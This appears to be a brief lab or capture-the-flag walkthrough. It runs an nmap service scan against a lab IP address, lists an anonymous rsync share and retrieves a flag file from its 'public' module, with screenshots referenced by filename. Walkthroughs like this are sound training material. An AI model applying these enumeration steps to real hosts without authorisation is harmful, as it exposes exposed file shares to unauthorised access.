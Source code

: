 # 1.Port Scan
ip=10.129.228.37
nmap -sV -sC  $ip
![85ac0168e45b11dc37f1ab2e819796c5.png](../_resources/85ac0168e45b11dc37f1ab2e819796c5.png)

# 2.Rsync

## rsync connect
`rsync --list-only $ip::`   
![ea43e3f51d026860d5ead2bd734b7d3c.png](../_resources/ea43e3f51d026860d5ead2bd734b7d3c.png)

## public check 
![0690187126c862805dab40ec9dbf923d.png](../_resources/0690187126c862805dab40ec9dbf923d.png)

## flag get
`rsync --list-only $ip::public/flag.txt flag.txt`
![d25ebfa5675b970b402df89104746a19.png](../_resources/d25ebfa5675b970b402df89104746a19.png)